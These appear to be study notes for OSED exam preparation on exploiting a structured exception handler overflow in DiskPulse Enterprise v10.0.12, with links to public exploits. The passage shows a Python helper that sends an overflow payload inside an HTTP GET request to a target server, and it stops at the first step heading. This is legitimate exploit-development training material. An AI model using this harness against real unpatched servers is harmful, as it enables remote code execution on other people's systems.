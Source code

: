 ```yaml
---
description: Structured Exception Handling Overflow (EXP-301 Edit)
---
```


# OSED SEH Overflow

- [https://jasonturley.xyz/windows-exploit-development-part-2-structured-exception-handler-seh-overflow/](https://jasonturley.xyz/windows-exploit-development-part-2-structured-exception-handler-seh-overflow/)
- [https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

All you need to know about the SEH Overflow challenge for OSED exam preparation.

The example below was made when building an exploit for DiskPulse Enterprise v10.0.12. Other versions of this exploit are:

- [https://www.exploit-db.com/exploits/42778](https://www.exploit-db.com/exploits/42778)
- [https://github.com/snowcra5h/DiskPulse-Exploit](https://github.com/snowcra5h/DiskPulse-Exploit)




## 0. Common Code

```python
import struct
import socket


def LE(num):
    return struct.pack('<I', num)


def send(payload, host='127.0.0.1', port=80):
    request  = b'GET /' + payload + b'HTTP/1.1' + b'\r\n'
    request += b'Host: ' + host.encode() + b'\r\n'
    request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
    request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
    request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
    request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
    request += b'Connection: keep-alive' + b'\r\n\r\n'

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(request)
    s.close()
```




## 1. Determine Exception Handler Offset
